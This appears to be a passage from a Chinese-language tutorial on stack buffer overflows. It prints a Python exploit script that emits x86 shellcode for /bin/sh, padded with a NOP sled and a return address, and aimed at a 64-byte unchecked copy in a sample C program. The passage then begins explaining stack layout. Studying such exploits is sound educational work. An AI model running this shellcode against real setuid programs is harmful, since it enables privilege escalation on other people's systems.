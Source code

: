 ```python
#!/usr/local/bin/python
import sys
from struct import *

if len(sys.argv) != 2:
	addr = 0x41414141
else:
	addr = int(sys.argv[1], 16)

s  = ""
s += "\x31\xc0\x50\x89\xe0\x83\xe8\x10" # 8
s += "\x50\x89\xe3\x31\xc0\x50\x68\x2f" #16
s += "\x2f\x73\x68\x68\x2f\x62\x69\x6e" #24
s += "\x89\xe2\x31\xc0\x50\x53\x52\x50" #32
s += "\xb0\x3b\xcd\x80\x90\x90\x90\x90" #40
s += "\x90\x90\x90\x90\x90\x90\x90\x90" #48
s += "\x90\x90\x90\x90\x90\x90\x90\x90" #56
s += "\x90\x90\x90\x90\x90\x90\x90\x90" #64
s += "\x90\x90\x90\x90"+pack('<L',addr) #72

sys.stdout.write(s)
```

运行两个程序

![运行两个程序](./1489116069190.png)

sample3.c的cpy函数会将输入的字符串原原本本得复制到一块只有64字节得内存空间中。由于字符串是由用户任意输入得，因此exploit.py 的输出结果输入给sample3.c，就能成功地以所有者权限运行`/bin/sh`

####栈使用运行空间

栈是一种内存的使用方式，栈并不是一种物理上真实存在的东西，它是普通的内存空间。

**向栈存入数据**

![Alt text](./1489119852167.png)
在程序开始运行时，先要确定栈的起点(基地址)。假设栈的起点为bffff6fc(ebp=esp)，bffff6fc已经存在0x01。